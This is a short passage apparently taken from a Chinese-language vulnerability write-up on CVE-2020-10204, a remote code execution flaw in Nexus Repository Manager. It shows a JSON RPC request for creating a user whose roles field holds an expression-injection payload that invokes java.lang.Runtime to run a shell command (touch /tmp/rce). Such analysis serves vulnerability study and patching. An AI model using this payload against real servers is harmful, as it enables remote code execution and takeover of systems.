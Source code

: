     {"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}"],"password":"admin"}],"type":"rpc","tid":33}

![](resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId31.png)

以及其他几处注解使用的地方
